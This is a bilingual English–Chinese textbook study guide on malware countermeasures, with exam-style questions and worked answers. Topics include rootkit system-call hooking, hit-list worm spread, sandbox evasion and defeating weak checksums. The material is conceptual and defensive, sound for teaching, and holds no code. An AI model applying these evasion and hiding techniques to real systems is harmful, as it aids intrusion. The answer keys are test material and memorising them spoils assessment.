A backdoor (trapdoor): one special username bypasses the normal check. A programmer may add it as a maintenance hook, but it is a threat if left in or abused. The operating system only sees a normal program making an authentication decision, so controls must target development (code review, change control), software updates and programs that offer network services.后门：一个特殊的用户名绕过了正常的检查。程序员可能将其作为维护钩子加入，但如果被保留或被滥用，它就构成威胁。操作系统只能看到一个正常程序在做出身份验证决定，因此控制措施必须针对开发（代码审查、变更控制）、软件更新以及提供网络服务的程序。
Q2. (Design) A kernel rootkit hides files by changing the directory-listing system call. For each of the three techniques, say what a defender could compare with a known-good reference to detect it.Q2.（设计）内核 rootkit 通过改变目录列表系统调用来隐藏文件。对于三种技术中的每一种，说明防御者可以将什么与已知可信的参考进行比较，以检测它。
Answer
Table edit: compare every table entry with the expected routine address; entries must point into the original kernel code. Target edit: the table is intact, so hash the code of each routine (or of the kernel text) and compare it with a known-good hash. Table redirect: compare the table address that the system-call dispatcher uses with the original table location. Because the checker runs under the possibly compromised kernel, a trusted view from outside (boot from clean media, hypervisor, cross-view comparison) is more reliable.表编辑：将每个表项与预期的例程地址进行比较；表项必须指向原始内核代码。目标编辑：表本身完好，因此对每个例程（或内核代码段）的代码进行哈希，并与已知良好的哈希值比较。表重定向：将系统调用分发器所使用的表地址与原始表的位置进行比较。由于检查程序运行在可能已被攻陷的内核之下，来自外部的可信视图（从干净介质启动、虚拟机监控器、跨视图比较）更为可靠。
思路：每种技术改了不同的东西（表项、例程代码、表地址），就分别对照“应有的值”。
Q3. (Explain) Why does a keylogger defeat HTTPS, why did banks introduce graphical entry applets, and how did attackers respond?Q3.（解释）为什么键盘记录器能使 HTTPS 失效？银行为什么引入图形化输入小程序？攻击者又是如何应对的？
Answer
HTTPS protects data on the network, but a keylogger records the keystrokes on the host before they are encrypted. A graphical applet takes input without keyboard text, so a traditional keylogger sees nothing. Attackers answered with spyware, which monitors much more: browsing activity, redirection of requests to fake sites and modification of the data exchanged between browser and site.HTTPS 保护的是网络上的数据，但键盘记录器在击键被加密之前就在主机上记录了它们。图形化小程序接收输入时不产生键盘文本，因此传统的键盘记录器什么也看不到。攻击者则以间谍软件应对，它监视的内容要多得多：浏览活动、将请求重定向到伪造站点，以及篡改浏览器与网站之间交换的数据。
Countermeasures and detection ★★★对策与检测
Goal. List the steps of defence, name the four generations of scanners, and compare signature-based and behaviour-based detection for a given malware sample.目标。 列出防御的各个步骤，说出四代扫描器，并针对给定的恶意软件样本比较基于特征码和基于行为的检测。
Step 1: prevention, detection, identification and removal第 1 步：预防、检测、识别和清除
In words: first keep it out; if it gets in, find it, name it and remove it.用文字表述：先把它挡在外面；如果它进来了，就找到它、认出它、清除它
Prevention keeps malware out or stops it from changing the system. It is the ideal but nearly impossible. Hardening only reduces the number of successful attacks. NIST SP 800-83 lists four elements: policy, awareness, vulnerability mitigation and threat mitigation. Patching and least-privilege access control counter exploit-based spread. Awareness training counters social engineering.预防是指阻止恶意软件进入系统或阻止它改变系统。这是理想目标，但几乎做不到。加固只能减少成功攻击的数量。NIST SP 800-83 列出了四个要素：策略、安全意识、漏洞缓解和威胁缓解。打补丁和最小权限访问控制可以对抗基于漏洞利用的传播。安全意识培训可以对抗社会工程。
When prevention fails, three steps follow.当预防失败时，接下来有三个步骤。
- Detection: learn that an infection occurred and locate it.检测：发现已经发生了感染，并定位感染的位置。
- Identification: find out which malware it is.识别：查明这是哪一种恶意软件。
- Removal: delete all traces.清除：删除所有痕迹。
If these fail, discard the infected files and restore a clean backup. Severe cases need a rebuild from clean media.如果这些步骤都失败，就丢弃被感染的文件，恢复一份干净的备份。严重的情况需要用干净的介质重新搭建系统。
Six requirements apply to any countermeasure: generality, timeliness, resiliency (it resists evasion), minimal denial-of-service cost, transparency (no change to legacy systems) and global and local coverage. No single approach meets all of them. Defence in depth is therefore used, with detection at three places: the host, the perimeter and distributed sensors.任何对策都要满足六项要求：通用性、及时性、弹性（能抵抗规避）、拒绝服务的代价最小、透明性（不需要改动遗留系统），以及全局和局部覆盖。没有任何单一方法能满足全部要求。因此要采用纵深防御，在三个位置进行检测：主机、边界和分布式传感器。
Step 2: host-based scanners, four generations第 2 步：基于主机的扫描器，四代
| Generation代际 | Technique技术 | Weakness缺点 |
|---|---|---|
| 1 Simple scanners1 简单扫描器 | signature（特征码）matching: a byte pattern, possibly with wildcards, shared by all copies; or changes in program length特征码匹配：所有副本共有的字节模式（可能含通配符），或程序长度的变化 | known malware only仅限已知恶意软件 |
| 2 Heuristic scanners2 启发式扫描器 | heuristic rules for code typical of malware (e.g., an encryption loop, whose key is recovered to decrypt the body); integrity checking针对典型恶意代码的启发式规则（例如加密循环，通过恢复其密钥来解密主体）；完整性检查 | false positives; evasion误报；可被规避 |
| 3 Activity traps3 活动陷阱 | memory-resident; identify malware by its actions, not its structure, and intervene常驻内存；根据行为而非结构识别恶意软件，并进行干预 | harm possible before blocking拦截之前可能已造成危害 |
| 4 Full-featured protection4 全功能防护 | scanning plus activity traps plus access control that limits penetration and file updates扫描、活动陷阱，以及限制渗透和文件更新的访问控制 | complexity, cost复杂度、成本 |
Integrity checking appends a checksum to each program. Malware that alters a program and recomputes the checksum defeats it. An encrypted hash is therefore used, with the key stored separately. In effect this is a MAC (Chapter 12). The malware can then neither forge the stored value nor craft a changed program with the same hash.完整性检查给每个程序附加一个校验和。修改程序并重新计算校验和的恶意软件可以骗过它。因此，要使用加密哈希，密钥另外保存。实际上，这就是一种 MAC（见第 12 章）。这样，恶意软件既无法伪造保存的值，也无法构造一个哈希相同的修改过的程序。
Step 3: sandbox analysis and behaviour blocking第 3 步：沙箱分析与行为拦截
Sandbox analysis runs suspect code in an emulated environment or a virtual machine and monitors it. No real system is at risk. Encrypted, polymorphic and metamorphic malware must unpack itself into real instructions to act. The unpacked code can then be scanned for signatures, or its behaviour is observed. The hard design question is how long to run each sample. Malware evades a sandbox by detecting it and staying quiet, by sleeping for a long time, or by waiting for a date, a system type or a network location.沙箱分析在模拟环境或虚拟机中运行可疑代码并对其进行监控，真实系统不会有风险。加密型、多态型和变形型恶意软件必须先把自己解包成真正的指令才能行动。然后，解包后的代码可以进行特征码扫描，或者观察其行为。设计上的难点在于：每个样本该运行多久。恶意软件可以通过检测到沙箱并保持安静、长时间休眠，或者等待某个日期、某种系统类型或某个网络位置，来躲避沙箱。
Host-based dynamic analysis, also called behaviour blocking, is part of the operating system. It watches programs in real time and blocks malicious actions before they affect the system (Chapter 22). The monitored behaviours are:基于主机的动态分析，也称行为拦截，是操作系统的一部分。它实时监视程序，并在恶意动作影响系统之前将其拦截（见第 22 章）。被监控的行为包括：
- file access and modification, and formatting disks;文件的访问和修改，以及格式化磁盘；
- modifying executables or macros, and changing start-up settings;修改可执行文件或宏，以及更改启动设置；
- scripting e-mail clients to send executable content;通过脚本操控电子邮件客户端发送可执行内容；
- starting network communication.发起网络通信。
There are trillions of ways to rearrange the instructions of a virus. But the code must make a well-defined request to the operating system, and the monitor sees every request. The price is that the code must run first, so it can do harm before it is blocked.重新排列病毒指令的方式有上万亿种。但代码必须向操作系统提出明确定义的请求，而监控器能看到每一次请求。代价是代码必须先运行，因此它可能在被拦截之前就已造成危害。
Step 4: signature-based versus behaviour-based detection第 4 步：基于特征码与基于行为的检测
In words: a signature scanner detects what it has seen; a behaviour monitor detects what the code does.用文字表述：特征码扫描器检测它见过的东西；行为监控器检测代码做了什么
| Signature-based基于特征码 | Behaviour/anomaly-based基于行为/异常 | |
|---|---|---|
| Looks at检查对象 | structure: known byte patterns, hashes结构：已知字节模式、哈希值 | actions: system requests, known malicious behaviours or deviation from a profile of normal behaviour行为：系统请求、已知的恶意行为，或偏离正常行为画像的情况 |
| Finds发现 | known malware only仅限已知恶意软件 | unknown and obfuscated malware未知的和经过混淆的恶意软件 |
| Strengths优点 | fast, accurate, few false positives, no execution needed快速、准确、误报少，无需执行 | independent of code form; can block in real time与代码形式无关；可实时阻断 |
| Weaknesses缺点 | misses new, polymorphic, metamorphic and zero-day samples; needs constant signature updates无法发现新的、多态、变形和零日样本；需要不断更新特征码 | the code must run first; false positives; needs a normal profile; sandbox evasion代码必须先运行；误报；需要正常行为画像；可被沙箱规避 |
Anomaly detection builds a profile of normal behaviour and flags deviations. Signature (misuse) detection matches known attack patterns (Chapter 22). Fourth-generation products combine both.异常检测建立正常行为的画像，并标记偏离。特征（误用）检测则匹配已知的攻击模式（见第 22 章）。第四代产品把两者结合起来。
Step 5: perimeter and distributed detection第 5 步：边界检测与分布式检测
Perimeter scanning runs in the firewall (Chapter 21), in mail and web proxies and in the IDS (Chapter 22). It sees malware in transit for every internal host, but only its content and not its behaviour on a host.边界扫描在防火墙（见第 21 章）、邮件和 Web 代理以及入侵检测系统（见第 22 章）中运行。它能看到所有内部主机传输中的恶意软件，但只能看到其内容，而看不到它在主机上的行为。
- Ingress monitors at the border use signature, heuristic or anomaly methods. A honeypot can capture incoming malware. Traffic to unused local IP addresses is a tell-tale sign.边界上的入站监控使用特征码、启发式或异常方法。蜜罐可以捕获进入的恶意软件。发往未使用的本地 IP 地址的流量是一个明显的迹象。
- Egress monitors at the exits of the LAN and at the border look for the source of an attack: scanning (rate-limited or blocked), abnormal e-mail volume, botnet traffic patterns and unauthorised outgoing data.局域网出口和边界上的出站监控，用于查找从内部发起攻击的迹象：扫描行为（限速或阻断）、异常的邮件量、僵尸网络流量模式，以及未经授权的外发数据。
Distributed intelligence gathering collects data from many host and perimeter sensors and correlates it centrally. It sends updated signatures and behaviour patterns back to all participants, as in a distributed intrusion prevention system.分布式情报收集从许多主机和边界传感器收集数据，并在中心进行关联分析。它再把更新后的特征码和行为模式发送回所有参与者，类似分布式入侵防御系统。
Practice练习
Q1. (Calculation) A scanner stores an 8-bit checksum (sum of all bytes mod 256) of 0x5A for a program. A virus appends code whose bytes sum to 0xC3. Which extra byte keeps the checksum unchanged? Why does a keyed hash stop this attack?Q1.（计算）某扫描器为一个程序存储了 0x5A 的 8 位校验和（所有字节之和对 256 取模）。某病毒附加的代码，其字节之和为 0xC3。哪一个额外字节能使校验和保持不变？为什么带密钥的哈希能阻止这种攻击？
Answer
Need \(\mathrm{C3}+x\equiv\mathrm{5A}\pmod{256}\), so \(x=90-195=-105\equiv151=\mathrm{97}_{16}\). Check: \(195+151=346=256+90\), so the checksum is 0x5A again. A checksum is simple arithmetic, so malware can always compensate. A cryptographic hash makes it infeasible to craft a modified program with the same hash, and encrypting the hash (or using a MAC) with a key stored separately stops the malware from recomputing a valid stored value.需要 \(\mathrm{C3}+x\equiv\mathrm{5A}\pmod{256}\)，因此需要 \(x=90-195=-105\equiv151=\mathrm{97}_{16}\)。核对：\(195+151=346=256+90\)，因此校验和再次为 0x5A。校验和只是简单的算术，因此恶意软件总能进行补偿。密码学哈希使构造出具有相同哈希值的修改程序变得不可行；而用另行存储的密钥加密哈希（或使用 MAC），则使恶意软件无法重新计算出有效的存储值。
Q2. (Compare) Which approach, signature or behaviour-based, is better for: (a) a virus known for years; (b) a polymorphic virus; (c) a zero-day worm; (d) malware that sleeps for ten minutes before acting?Q2.（比较）对于以下情形，特征码方法还是基于行为的方法更好：(a) 多年前就已知的病毒；(b) 多态病毒；(c) 零日蠕虫；(d) 行动前休眠十分钟的恶意软件？
Answer
(a) Signature: fast, accurate, no execution needed. (b) Behaviour (or emulation, then a signature on the unpacked code): the bytes vary, the actions do not. (c) Behaviour: no signature exists yet, but its scanning and file or registry changes can be seen and blocked. (d) Neither alone: a sandbox with a short run time sees nothing and misses it; a host behaviour monitor catches it when it finally acts, but only after it starts; a signature works if the sample is already known.(a) 特征码：快速、准确，无需执行。(b) 行为（或先模拟执行，再对解包后的代码使用特征码）：字节会变化，但行为不变。(c) 行为：尚不存在特征码，但其扫描以及文件或注册表的改动可以被发现并阻断。(d) 单独使用均不足够：运行时间较短的沙箱什么也看不到，从而漏检；主机行为监视器能在其最终行动时将其捕获，但只能在它开始运行之后；若样本已知，则特征码有效。
Q3. (Proof, beyond the pages) Suppose a program D decides, for every program P, whether P is a virus. Consider CV: "if D(CV) then stop without infecting, else infect other executables". Show that D cannot be correct.Q3.（证明，超出正文内容）假设程序 D 对每个程序 P 判断 P 是否为病毒。考虑 CV：“若 D(CV)，则停止而不进行感染，否则感染其他可执行程序”。证明 D 不可能正确。
Answer
If D(CV) is TRUE, CV skips the infection and never replicates, so it is not a virus and D is wrong. If D(CV) is FALSE, CV infects other programs, so it is a virus and D is wrong. Either way D errs, so a perfect detector cannot exist: virus detection is undecidable. Practical detectors accept false positives or false negatives and use approximations such as signatures, heuristics and behaviour.若 D(CV) 为真，则 CV 跳过感染，从不复制，因此它不是病毒，D 出错。若 D(CV) 为假，则 CV 会感染其他程序，因此它是病毒，D 同样出错。无论如何 D 都会出错，因此完美的检测器不可能存在：病毒检测是不可判定的。实用的检测器接受误报或漏报，并采用特征码、启发式和行为等近似方法。
思路：与停机问题同构的自指构造——让程序做与检测器预测相反的事。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Spyware间谍软件 | Monitors browsing and content, redirects requests to fake sites and alters form data. Zeus is an example监控浏览和内容，把请求重定向到假网站，并篡改表单数据。Zeus 就是一个例子 |
| Mutation engine变异引擎 | The part of a polymorphic virus that changes the decryption routine in each copy多态型病毒中，在每个副本里改变解密例程的部分 |
| Hit-list预设目标列表 | A prepared list of vulnerable hosts that is split among infected hosts. It shortens the slow start一份预先准备好的有漏洞主机列表，分给已感染的主机分头使用。它能缩短缓慢启动阶段 |
| Stuxnet | An APT-style worm with four zero-days. It attacked industrial control systems and was spread slowly on purpose一种 APT 式蠕虫，利用四个零日漏洞。它攻击工业控制系统，并且刻意缓慢传播 |
| Hydraq | A Trojan that installed itself by a vulnerability in Operation Aurora在 Aurora 行动中通过漏洞自行安装的木马 |
| Domain generation域名生成 | The malware creates many domain names and the attacker registers one. Defenders must reverse-engineer the algorithm恶意软件生成大量域名，攻击者注册其中一个。防御者必须对算法进行逆向工程 |
| Fast-flux DNSfast-flux DNS | The address behind a name changes every few minutes across proxies, often other bots域名背后的地址每隔几分钟通过代理变化一次，这些代理往往是其他僵尸主机 |
| Knark | A Linux rootkit that modifies the system call table一种修改系统调用表的 Linux rootkit |
| Blue Pill, SubVirtBlue Pill、SubVirt | Hypervisor rootkits. SubVirt could be detected. Blue Pill ran under a live system and was far harder to find虚拟机监控器级 rootkit。SubVirt 可以被检测到。Blue Pill 运行在一个正在运行的系统之下，要找到它难得多 |
| RootkitRevealer | A cross-view tool: it compares the view from the APIs with a raw view of storage一种交叉视图工具：它把 API 的视图与存储的原始视图进行比较 |
| Secure Boot, measured boot安全启动、度量启动 | Each boot stage checks the signature of the next. A TPM can record a hash of each stage每个启动阶段都检查下一阶段的签名。TPM 可以记录每个阶段的哈希值 |
| Mobile code移动代码 | A script or macro that runs unchanged on different platforms, as in Java applets and JavaScript一种在不同平台上原样运行的脚本或宏，例如 Java applet 和 JavaScript |
Exam-style questions考试题型练习
Q1. (Definitions and classification, 10 marks) (a) Define virus, worm, Trojan horse, bot and rootkit, and state for each whether it needs a host program and whether it replicates. (5 marks) (b) Name the three propagation mechanisms and the four payload categories, each with one example. (5 marks)Q1.（定义与分类，10 分）(a) 定义病毒、蠕虫、特洛伊木马、僵尸程序和 rootkit，并说明每一种是否需要宿主程序以及是否复制自身。（5 分）(b) 列出三种传播机制和四类载荷，每类举一例。（5 分）
Answer
(a)
| Type类型 | Definition定义 | Host program宿主程序 | Replicates能否复制 |
|---|---|---|---|
| Virus病毒 | malware that, when executed, replicates into other executable or script code; running infected code runs the virus执行时会复制到其他可执行或脚本代码中的恶意软件；运行被感染的代码即会运行病毒 | yes是 | yes是 |
| Worm蠕虫 | independent program that actively seeks other machines, usually by exploiting vulnerabilities, and copies a complete working version of itself独立程序，通常利用漏洞主动寻找其他机器，并复制一个完整可运行的自身副本 | no否 | yes是 |
| Trojan horse特洛伊木马 | program that appears useful but contains a hidden malicious function看似有用、但含有隐藏恶意功能的程序 | no否 | no否 |
| Bot僵尸程序 | program that gives an attacker remote control of a host through a C&C server通过 C&C 服务器使攻击者能够远程控制主机的程序 | no否 | no (spread by other malware)否（通过其他恶意软件传播） |
| Rootkitrootkit | set of programs that keep covert root access while hiding evidence of their presence一组程序，在隐藏自身存在痕迹的同时保持隐蔽的 root 权限 | no否 | no否 |
(b) Propagation: infected content (macro virus), vulnerability exploit (Code Red worm, drive-by-download), social engineering (phishing, Trojan). Payload: system corruption (ransomware, logic bomb), attack agent (DDoS bot), information theft (keylogger, spyware), stealthing (backdoor, rootkit).(b) 传播：感染内容（宏病毒）、漏洞利用（Code Red 蠕虫、路过式下载）、社会工程（网络钓鱼、木马）。载荷：系统破坏（勒索软件、逻辑炸弹）、攻击代理（DDoS 僵尸程序）、信息窃取（键盘记录器、间谍软件）、隐匿（后门、rootkit）。
Q2. (Viruses, 15 marks) (a) Describe the four phases of a virus. (4) (b) Give three reasons why macro viruses are more threatening than executable-file viruses. (3) (c) Distinguish encrypted, polymorphic and metamorphic viruses. (4) (d) Explain why each defeats a first-generation scanner and how a sandbox or behaviour monitor still detects it. (4)Q2.（病毒，15 分）(a) 描述病毒的四个阶段。（4 分）(b) 给出宏病毒比可执行文件型病毒更具威胁性的三个理由。（3 分）(c) 区分加密型、多态型和变形型病毒。（4 分）(d) 解释每种病毒为何能够规避第一代扫描器，以及沙箱或行为监视器如何仍能检测到它。（4 分）
Answer
(a) Dormant: idle until an event (date, another file, disk usage); optional. Propagation: places a copy in other programs or system areas; the copy may morph. Triggering: an event, or a count of copies made, activates the virus. Execution: the payload runs, from a harmless message to destroying data.(a) 休眠：处于空闲状态，直至某一事件（日期、另一文件、磁盘使用量）出现；此阶段可选。传播：将一个副本放入其他程序或系统区域；副本可能发生变形。触发：某一事件，或已制作副本的计数，激活病毒。执行：载荷运行，从无害的消息到销毁数据不等。
(b) Any three: platform independent; infects documents, which users exchange most, not programs; spreads easily by e-mail, sometimes without a prompt; file access controls help little since users must edit documents; easy to write or modify.(b) 任选三点：与平台无关；感染的是用户交换最多的文档而非程序；容易通过电子邮件传播，有时无需提示；文件访问控制作用不大，因为用户必须编辑文档；容易编写或修改。
(c) Encrypted: a random key per copy encrypts the body, and the decryptor stays constant. Polymorphic: functionally equivalent copies with different bit patterns; a mutation engine also changes the decryptor. Metamorphic: rewrites the whole virus at each infection and may change behaviour; nothing is constant.(c) 加密型：每个副本使用随机密钥加密主体，而解密器保持不变。多态型：功能等价但位模式不同的副本；变异引擎同时改变解密器。变形型：每次感染时重写整个病毒，且行为可能改变；没有任何部分是恒定的。
(d) A first-generation scanner needs a fixed byte pattern. The body of an encrypted virus has none, the polymorphic signature varies per copy, and the metamorphic virus has no constant part. In a sandbox the virus must decrypt or transform itself into real instructions, so the unpacked code can be scanned or watched; a behaviour monitor sees the same file, registry or network actions whatever the code looks like.(d) 第一代扫描器需要固定的字节模式。加密型病毒的主体没有这样的模式；多态病毒的特征码因副本而异；变形型病毒则没有恒定部分。在沙箱中，病毒必须解密或将自身转换为真实指令，因此解包后的代码可以被扫描或观察；行为监视器则无论代码形式如何，都能看到相同的文件、注册表或网络动作。
Q3. (Worm model, 15 marks) A random-scanning worm attacks \(N=2^{17}=131{,}072\) vulnerable hosts. Each infected host sends \(\eta=2^{13}=8{,}192\) probes per minute over \(\Omega=2^{32}\) addresses, and \(I_0=8\) hosts are infected at the start. (a) Find \(\beta\) and \(K=\beta N\). (3) (b) Find \(t_{50}\) and \(t_{90}\). (4) (c) How long does the fast-spread phase (10% to 90%) last? (3) (d) A hit-list gives \(I_0=16{,}384\). Find the new \(t_{90}\). (3) (e) What do the results imply for defence? (2)Q3.（蠕虫模型，15 分）一个随机扫描蠕虫攻击 \(N=2^{17}=131{,}072\) 台脆弱主机。每台已感染主机每分钟在 \(\Omega=2^{32}\) 个地址上发送 \(\eta=2^{13}=8{,}192\) 次探测，开始时有 \(I_0=8\) 台主机被感染。(a) 求 \(\beta\) 和 \(K=\beta N\)。（3 分）(b) 求 \(t_{50}\) 和 \(t_{90}\)。（4 分）(c) 快速扩散阶段（10% 至 90%）持续多长时间？（3 分）(d) 改用预设目标列表得到 \(I_0=16{,}384\)，求新的 \(t_{90}\)。（3 分）(e) 这些结果对防御意味着什么？（2 分）
Answer
(a) \(\beta=\eta/\Omega=2^{13}/2^{32}=2^{-19}=1.91\times10^{-6}\) per minute; \(K=2^{-19}\cdot2^{17}=2^{-2}=0.25\) per minute.(a) 每分钟 \(\beta=\eta/\Omega=2^{13}/2^{32}=2^{-19}=1.91\times10^{-6}\)；每分钟 \(K=2^{-19}\cdot2^{17}=2^{-2}=0.25\)。
(b) \((N-I_0)/I_0=131{,}064/8=16{,}383\). \(t_{50}=\ln(16{,}383)/K=9.704/0.25=38.8\) min. \(t_{90}=\ln(9\times16{,}383)/K=11.901/0.25=47.6\) min.(b) \((N-I_0)/I_0=131{,}064/8=16{,}383\)。\(t_{50}=\ln(16{,}383)/K=9.704/0.25=38.8\) 分钟。\(t_{90}=\ln(9\times16{,}383)/K=11.901/0.25=47.6\) 分钟。
(c) \(\ln81/K=4.394/0.25=17.6\) min. Check: \(t_{10}=30.0\) min and \(47.6-30.0=17.6\) min.(c) \(\ln81/K=4.394/0.25=17.6\) 分钟。核对：\(t_{10}=30.0\) 分钟和 \(47.6-30.0=17.6\) 分钟。
(d) \((N-I_0)/I_0=114{,}688/16{,}384=7\), so \(t_{90}=\ln(9\times7)/K=\ln63/0.25=4.143/0.25=16.6\) min instead of 47.6 min.(d) \((N-I_0)/I_0=114{,}688/16{,}384=7\)，因此为 \(t_{90}=\ln(9\times7)/K=\ln63/0.25=4.143/0.25=16.6\) 分钟，而不是 47.6 分钟。
(e) Without a hit-list the slow start lasts about 30 minutes, the only comfortable window; afterwards 80% of the hosts fall within about 18 minutes, too fast for manual response. A hit-list removes the slow start altogether, so detection and response (egress scan detection, rate limiting, fast filters) must be automatic and early.(e) 不使用预设目标列表时，缓慢启动阶段约持续 30 分钟，这是唯一较为宽裕的窗口；此后约 18 分钟内就有 80% 的主机被感染，速度过快，人工响应来不及。预设目标列表则完全消除了缓慢启动阶段，因此检测与响应（出口扫描检测、限速、快速过滤）必须是自动化的，并且要尽早进行。
思路：先算 K，再套 \(t_f\) 公式；10%→90% 的时间只取决于 K。
Q4. (Backdoors and rootkits, 15 marks) (a) Define backdoor, maintenance hook and rootkit. (3) (b) List the six rootkit classes and say which are hardest to detect and why. (4) (c) Explain how a Linux kernel rootkit hides a file, and name the three ways to change system calls. (5) (d) How are rootkits detected and how is a system recovered? (3)Q4.（后门与 rootkit，15 分）(a) 定义后门、维护钩子和 rootkit。（3 分）(b) 列出六类 rootkit，并说明哪几类最难检测及原因。（4 分）(c) 解释 Linux 内核 rootkit 如何隐藏文件，并说出改变系统调用的三种方式。（5 分）(d) rootkit 如何被检测，系统又如何恢复？（3 分）
Answer
(a) A backdoor (trapdoor) is a secret entry point that bypasses the normal access procedure. A maintenance hook is a backdoor that a programmer leaves for debugging and testing. A rootkit is a set of programs that keep covert root-level access while hiding evidence of their presence.(a) 后门是绕过正常访问程序的秘密入口。维护钩子是程序员为调试和测试而保留的后门。rootkit 是一组程序，在隐藏自身存在痕迹的同时保持隐蔽的 root 级访问权限。
(b) Persistent, memory-based, user mode, kernel mode, virtual-machine based, external mode (BIOS, UEFI, system management mode). Virtual-machine and external rootkits are hardest to detect: they run below the operating system, which cannot see them. Memory-based ones leave nothing on disk.(b) 持久型、基于内存、用户模式、内核模式、基于虚拟机和外部模式（BIOS、UEFI、系统管理模式）。基于虚拟机和外部模式的 rootkit 最难检测：它们运行在操作系统之下，操作系统无法看到它们。基于内存的 rootkit 则不在磁盘上留下任何痕迹。
(c) Each Linux system call has a number that indexes the system call table of routine pointers. A directory-listing call normally reaches the real routine. The rootkit makes it reach its own routine, which calls the real one and removes the rootkit's files from the result. The three ways are: modify the table entries, modify the table targets (the routines' code), and redirect the table to a new table in new kernel memory.(c) 每个 Linux 系统调用都有一个编号，用于索引由例程指针组成的系统调用表。目录列表调用通常会到达真正的例程。rootkit 使其转而到达自己的例程，该例程再调用真正的例程，并从结果中删除 rootkit 的文件。三种方式是：修改表项、修改表项目标（即例程的代码），以及将表重定向到新内核内存中的新表。
(d) Known rootkits are found by signatures in network or host IDS and anti-virus; new ones by behaviour (system-call interception, a keylogger on the keyboard driver) and by cross-view integrity checks such as RootkitRevealer, which compare the API view with a raw view of storage. Recovery from a kernel or virtual-machine rootkit needs a complete reinstall; a UEFI rootkit may need hardware replacement.(d) 已知的 rootkit 由网络或主机 IDS 以及杀毒软件通过特征码发现；新的 rootkit 则通过行为（系统调用拦截、挂接在键盘驱动程序上的键盘记录器）以及 RootkitRevealer 等跨视图完整性检查来发现，后者将 API 视图与存储的原始视图进行比较。从内核级或虚拟机级 rootkit 中恢复需要彻底重装系统；UEFI rootkit 则可能需要更换硬件。
Q5. (Scenario, 15 marks) A finance officer opens a PDF attached to an e-mail that seems to come from her director. Two weeks later the security team sees periodic night-time connections to an unfamiliar domain with large outbound transfers; later, files on several servers are encrypted and a ransom note appears. (a) Identify the attack type, the propagation mechanisms and the malware types and payload categories involved. (6) (b) Say how host-based, perimeter and distributed detection could each have helped. (6) (c) Compare signature-based and behaviour-based detection for this incident. (3)Q5.（情景分析，15 分）一名财务人员打开了一封看似来自其主管的电子邮件所附的 PDF。两周后，安全团队发现有定期在夜间发生、连接到陌生域名的连接，并伴有大量外发传输；随后，多台服务器上的文件被加密，并出现了勒索信。(a) 说明所涉及的攻击类型、传播机制、恶意软件类型以及载荷类别。（6 分）(b) 说明基于主机、边界和分布式的检测各自能如何提供帮助。（6 分）(c) 针对此事件比较基于特征码和基于行为的检测。（3 分）
Answer
(a) A targeted, APT-style attack that began with spear-phishing. Propagation: social engineering with a malicious PDF that exploits a viewer flaw or launch action (drive-by-style) and installs a Trojan or downloader. Later stages: a backdoor or bot talking to a C&C server (the periodic night connections), data exfiltration (information-theft payload), possibly a rootkit to hide, and finally ransomware (system-corruption payload), which may have spread as a worm using vulnerabilities or stolen credentials.(a) 有针对性的 APT 式攻击，始于鱼叉式网络钓鱼。传播：通过恶意 PDF 实施社会工程，该 PDF 利用查看器缺陷或启动动作（类似路过式下载），并安装木马或下载器。后续阶段：与 C&C 服务器通信的后门或僵尸程序（即定期的夜间连接）、数据外泄（信息窃取类载荷），可能还有用于隐藏的 rootkit，最后是勒索软件（系统破坏类载荷），它可能利用漏洞或被盗凭据以蠕虫方式传播。
(b) Host: anti-virus and behaviour blocking flag a PDF viewer starting a program, new start-up entries and mass file encryption; integrity checks and rootkit scans find changes. Perimeter: ingress mail and web scanning check attachments; egress monitors see periodic connections to a rare domain, generated domain names and large outbound transfers (data-loss controls), and rate-limit internal scanning. Distributed: correlating sensors across sites reveals the same C&C domain and file hashes and pushes new signatures and behaviour patterns everywhere.(b) 主机：杀毒软件和行为阻断会标记 PDF 查看器启动程序、新增的启动项以及大规模文件加密；完整性检查和 rootkit 扫描会发现变化。边界：入站邮件和 Web 扫描检查附件；出站监控会发现对罕见域名的定期连接、生成的域名以及大量外发传输（数据防泄漏控制），并对内部扫描进行限速。分布式：跨站点关联各传感器的数据，可发现相同的 C&C 域名和文件哈希，并将新的特征码和行为模式推送到各处。
(c) Custom or zero-day malware has no signature at first, so signature scanning misses the initial infection, but once analysed its signature can be deployed everywhere. Behaviour-based detection can catch the unusual actions whatever the code looks like, but only once the code runs, it gives false positives, and APT malware may sleep to evade sandboxes. Hence layered defence plus awareness training against spear-phishing.(c) 定制的或零日恶意软件起初没有特征码，因此特征码扫描会漏过最初的感染；但一旦完成分析，其特征码便可被部署到各处。基于行为的检测无论代码形式如何，都能发现异常动作，但只能在代码运行之后才能发现，而且会产生误报；APT 恶意软件还可能通过休眠来规避沙箱。因此需要分层防御，并辅以针对鱼叉式网络钓鱼的安全意识培训。
Textbook exercises课后习题
Textbook exercises with answers: 19 questions教材习题及答案，共 19 题，点击展开
E1. (Review Question 6.1, Stallings & Brown) What are three broad mechanisms that malware can use to propagate?E1.（复习题 6.1，Stallings & Brown）恶意软件可以用来传播的三种主要机制是什么？
Answer
- Infection of existing executable or interpreted content (viruses): the malware inserts a copy of itself into a host file, and spreads when the file is shared or run.感染已有的可执行内容或解释执行的内容（病毒）：恶意软件把自己的副本插入宿主文件，并在文件被共享或运行时传播。
- Exploitation of software vulnerabilities (worms, drive-by downloads): the malware uses a flaw in a network service, browser or application to run its code on the target without user help.利用软件漏洞（蠕虫、路过式下载）：恶意软件利用网络服务、浏览器或应用程序中的缺陷，在目标上运行其代码，无需用户帮助。
- Social engineering (Trojan horses, spam, phishing): the malware tricks users into installing or running it, for example by posing as useful software or as a message with a malicious attachment or link.社会工程（特洛伊木马、垃圾邮件、网络钓鱼）：恶意软件诱骗用户安装或运行它，例如伪装成有用的软件，或伪装成带有恶意附件或链接的消息。
思路：感染宿主内容、利用漏洞、社会工程三条传播途径。
E2. (Review Question 6.2, Stallings & Brown) What are four broad categories of payloads that malware may carry?E2.（复习题 6.2，Stallings & Brown）恶意软件可能携带的载荷有哪四大类？
Answer
- System corruption: destroying or encrypting files or hardware (data destruction, ransomware, logic bombs).系统破坏：销毁或加密文件或硬件（数据破坏、勒索软件、逻辑炸弹）。
- Attack agent: turning the host into a bot (zombie) that is controlled remotely for DDoS, spam or proxying.攻击代理：把主机变成可被远程控制的僵尸主机，用于 DDoS、垃圾邮件或代理转发。
- Information theft: stealing credentials and data through keyloggers, spyware and phishing.信息窃取：通过键盘记录器、间谍软件和网络钓鱼窃取凭证和数据。
- Stealthing: hiding the malware and giving covert access through backdoors and rootkits.隐身：隐藏恶意软件，并通过后门和 rootkit 提供隐蔽访问。
思路：破坏系统、攻击代理、窃取信息、隐匿。
